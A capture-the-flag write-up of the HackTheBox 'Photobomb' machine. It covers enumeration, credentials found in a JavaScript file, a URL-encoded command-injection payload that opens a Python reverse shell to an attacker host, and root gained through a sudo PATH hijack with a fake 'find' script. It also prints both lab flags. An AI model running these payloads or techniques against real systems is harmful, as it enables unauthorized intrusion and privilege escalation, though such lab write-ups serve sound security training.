 ```yaml
---
title: "CTF Writeup: HTB - Photobomb"
categories:
  - CTF
  - Writeup
---
```


The HackTheBox weekly machine named Photobomb was relatively easy to exploit. 

The first step involved discovering the login credentials by analyzing a JavaScript file. Once I gained access to an image manipulation panel using the credentials, I identified a command injection vulnerability and leveraged it to obtain execution and a shell. The privilege escalation phase was accomplished by executing a script as root, and there were two ways to achieve this. The first method involved exploiting a find command that was called without the full path, while the second method involved taking advantage of a disabled Bash builtin.

The machine [HTB - Photobomb](https://app.hackthebox.com/machines/500)


## Enumeration

```bash
┌──(root㉿kali)-[~]
└─# nmap -sV -sC 10.10.11.182
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-27 21:53 EST
Nmap scan report for 10.10.11.182
Host is up (0.028s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.83 seconds
```

Looks like ports [22, 80] are Open.

To take a look at T80 we should add our an entry to `/etc/hosts`.
```
┌──(root㉿kali)-[~]
└─# echo "10.10.11.182 photobomb.htb" >>/etc/hosts
```

![image](https://user-images.githubusercontent.com/29680216/221742245-98cf98fe-9d8f-47b1-8d36-abcaf89a3d63.png)

Clicking the `click here!` redirects to a page `/printer` which requires creds.

![image](https://user-images.githubusercontent.com/29680216/221742383-a7ee84aa-b3cb-4ee0-9ff3-0ec9d2633c34.png)

Manually inputing some creds showed no promise, but looking at the page source it looks to have a script it loads at the beginning of the page: `photobomb.js`.

Source: `photobomb.js`

![image](https://user-images.githubusercontent.com/29680216/221743317-817dd3e5-77e3-4eb5-8791-b33e6876127b.png)

Looks there's a possible username/password in the href.

![image](https://user-images.githubusercontent.com/29680216/221743975-e884e8a4-86c1-4c96-8258-b33b06139b7e.png)

Opening that URL looks to have let us login to the page.

![image](https://user-images.githubusercontent.com/29680216/221744204-3b16a0a9-8c48-4f74-a0ed-380b45a00b37.png)

Seems to have nothing of interest, but at the bottom there's a section for downloading an image.

![image](https://user-images.githubusercontent.com/29680216/221744437-e3a4b29a-8812-4b7e-93eb-55728b3e2561.png)

Using Burp Suite we can intercept when seeing what this button does.

![image](https://user-images.githubusercontent.com/29680216/221745177-15fb505c-8d94-4cad-95a8-2070664d309d.png)


## Exploitation

Using the below payload injection seems we were able to establish a shell.
- `[LHOST]` your local host.
- `[LPORT]` your local port.

```
%3bexport+RHOST%3d"[LHOST]"%3bexport+RPORT%3d[LPORT]%3bpython3+-c+'import+sys,socket,os,pty%3bs%3dsocket.socket()%3bs.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))%3b[os.dup2(s.fileno(),fd)+for+fd+in+(0,1,2)]%3bpty.spawn("sh")'
```

Before sending the payload, ensure you're listening on the port above.

![image](https://user-images.githubusercontent.com/29680216/221747141-ae1063aa-9692-4d98-95c5-d4063fcbe7cf.png)

Bingo.

![image](https://user-images.githubusercontent.com/29680216/221747683-4ecaa6d7-6073-4687-9538-062c02926472.png)

Now we need to get ourselves a shell, so we must spawn one.

```
$ python3 -c "import pty;pty.spawn('/bin/bash')"
python3 -c "import pty;pty.spawn('/bin/bash')"
wizard@photobomb:~/photobomb$ 
```

Bet. Now that we have a user shell, looks that we have a our first flag.

```
wizard@photobomb:~/photobomb$ ls ~/
ls ~/
photobomb  user.txt
wizard@photobomb:~/photobomb$ cat ~/user.txt    
cat ~/user.txt
a43c08bd49e712707dc3b67c766371d2
```

Now... Let's see what permissions we're working with.

```
wizard@photobomb:~/photobomb$ sudo -l
sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
wizard@photobomb:~/photobomb$ 
```

It looks like there's a script we can run as root: `/opt/cleanup.sh`. Seems we have read rights to view the contents of the script.

```
wizard@photobomb:~/photobomb$ ls -la /opt/cleanup.sh
ls -la /opt/cleanup.sh
-r-xr-xr-x 1 root root 340 Sep 15 12:11 /opt/cleanup.sh
```

Taking a peak that the scripts contents 

```
wizard@photobomb:~/photobomb$ cat /opt/cleanup.sh
cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

We can try to overwrite the `find` script and bypass roots `PATH` so that it uses our modfied script to give us a root shell.
```
wizard@photobomb:~/photobomb$ echo "bash" > find
echo "bash" > find
wizard@photobomb:~/photobomb$ chmod +x find
chmod +x find
wizard@photobomb:~/photobomb$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
sudo PATH=$PWD:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# 
```

Solid. Now we have the root flag.

```
root@photobomb:/home/wizard/photobomb# ls ~/
ls ~/
root.txt
root@photobomb:/home/wizard/photobomb# cat ~/root.txt   
cat ~/root.txt
78dfb63bc7a8d3a0ddd4a6495c723c86
root@photobomb:/home/wizard/photobomb# 
```


## Conclusion

This was a fun box. I enjoyed the manual enumeration and the exploitation. I'm not sure if this was intended, but I was able to get a root shell without having to modify the `find` script. I was able to overwrite the `find` script and then run the `sudo` command with the `PATH` set to the current directory. This allowed me to run my modified `find` script and get a root shell.

Lastly, **Hack the Planet**!
